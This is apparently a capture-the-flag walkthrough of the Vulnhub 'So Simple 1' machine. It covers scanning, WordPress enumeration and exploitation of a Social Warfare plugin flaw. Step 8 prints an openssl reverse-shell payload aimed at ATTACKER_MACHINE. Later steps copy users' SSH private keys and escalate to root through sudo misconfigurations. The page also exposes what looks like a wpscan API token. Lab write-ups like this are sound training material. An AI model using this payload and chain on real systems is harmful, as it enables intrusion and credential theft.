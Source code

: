 # So Simple 1

---

Machine by [@roelvb79](https://twitter.com/roelvb79)

Vulnhub [link](https://www.vulnhub.com/entry/so-simple-1,515/)

---

## Network scan

nmap the network, find the machine as 192.168.56.111, running a web server and ssh server, no vulnerabilites shown seen.

  
1. Use nmap to scan the network

    We'll use an intense scan on the network as it's quite small (virtualbox host only), we can see web and ssh services running, but no aparent vulnerabilities yet.

    ![victim machine nmap scan result]()




---

---

 
2- attempt to login to ssh, it's key authentication only, this rules out ssh brute force.

3- look into http://192.168.56.111/ on a web browser, couldn't find anything interesting

4- run dirb and we get to know that wordpress is installed

5- create a wpscan account and get api key

6- run "sudo wpscan --api-token BxwwzQ5nrvb34sz235LeWNQQplA4vqr7VBu9WEylbrQ --url http://192.168.56.111/wordpress/ -e" to get information of the wordpress sitem, we know that Social Warfare is installed and on version 3.5.0 is installed and the users "admin" and "max" are created.

7- search for vulnerabilities of social warfare and we find a remote execution vulnerability: "https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/".

8- spin up an apache install, it will contain our payload called "payload.txt" and contain "<pre>system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')</pre>", this will create a connection to our attacker machine on port 4242. (reverse shell command from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#openssl)
9- Start nc with the next options "ncat --ssl -vv -l -p 4242", we will get a reverse shell connection
10- navigate to the max user .ssh folder and get the id_rsa key, we will copy the contents and create a file on our attack machine, we'll call it "key", paste the private key into it, and chmod 600 said file.
11- add the private key with "ssh-add key"
12- ssh into the machine as max with "ssh max@192.168.56.111"
13- once in we can cat the file user.txt and get the first flag
14- using "sudo -l" we'll know what the user has acces to use as root without asking a password, this will return that the user can use /usr/sbin/service.
15- we will use "sudo -u steven /usr/sbin/service ../../bin/bash" this will change to the user steven with the permissions of max /usr/sbin/service and will make sure that we acces the user with /bin/bash as the interpreter.
16- repeat "sudo -l" for user steven, will return a "/opt/tools/server-health.sh" file (non existant), we'll create the folder tools and file server-health.sh. this file will contain: 
#!/bin/bash

bash
17- then we will "chmod +x /opt/tools/server-health.sh"
18- we can use "sudo -u root /opt/tools/server-health.sh" to get root access to the machine.
19- copy the root's ssh private key for direct root access to the machine, and get the flag from inside the root's home folder
